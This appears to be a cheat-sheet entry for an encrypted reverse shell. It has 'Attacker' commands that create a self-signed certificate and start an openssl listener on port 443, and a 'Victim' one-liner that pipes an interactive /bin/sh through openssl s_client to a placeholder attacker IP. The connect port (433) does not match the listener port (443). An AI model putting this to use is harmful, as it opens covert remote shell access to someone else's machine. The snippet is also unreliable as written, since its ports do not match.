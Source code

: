 ### Attacker
	openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
	openssl s_server -quiet -key key.pem -cert cert.pem -port 443
### Victim
	mkfifo /tmp/x; /bin/sh -i < /tmp/x 2>&1 | openssl s_client -quiet -connect [attacker ip]:433 > /tmp/x; rm  /tmp/x